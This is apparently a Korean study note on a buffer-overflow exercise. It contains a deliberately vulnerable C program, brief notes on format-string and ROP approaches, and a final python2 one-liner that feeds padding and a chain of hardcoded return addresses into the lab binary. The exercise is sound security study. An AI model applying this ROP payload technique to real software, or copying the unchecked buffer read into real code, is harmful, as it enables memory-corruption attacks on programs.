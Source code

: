 # Multi Function Call 3

### Question

- 주석으로 처리된 부분처럼 프로그램 수행되도록 실행

```
#define MAX 49
#define BUFFER_SIZE 20
char Mesg[]="Run Func1!\\n"
           "Run Func2!\\n"
           "Run Func3!\\n"
           "Run Func4!\\n";
int main(int argc,char *argv[])
{ 
    char buf1[BUFFER_SIZE];
     char *buf2 = buf1 + 0x200;
    
     printf(" What your name : ");
     fgets(buf1, MAX, stdin);
     printf("\\nYour Name is %s\\n", buf1);
    
    //  strcpy(buf2, Mesg);    // ---> 1
    //  printf("%s", buf2);    // ---> 2
}
```



<br>



### Analysis

**1) Format String Bug**

- printf() 함수에 %n 과 같은 인자를 입력해 buf2 위치에 Mesg 뒤집어 씌우기
- ROP 이용해서 printf(buf2)

<br>

**2)**

- -> mesg 주소에 있는 값이 아닌 주소 자체를 문자열로 읽어버림
    buf2 변수에 mesg 주소 넣기
- ROP 이용해 printf(buf2)

<br>

**3)**

![image-37.png](../images/image-37.png)

![image-38.png](imagse/image-38.png)

![image-39.png](../images/image-39.png)

![image-40.png](../images/image-40.png)

```
python2 -c "print 'A'*24 + '\\x15\\xe6\\x41\\x00' + '\\x40\\x10\\x40\\x00' + '\\x24\\xff\\x19\\x00' + '\\x60\\x3f\\x44\\x00' + '\\x24\\xff\\x19\\x00'" | .\\multi_func_3.exe
```
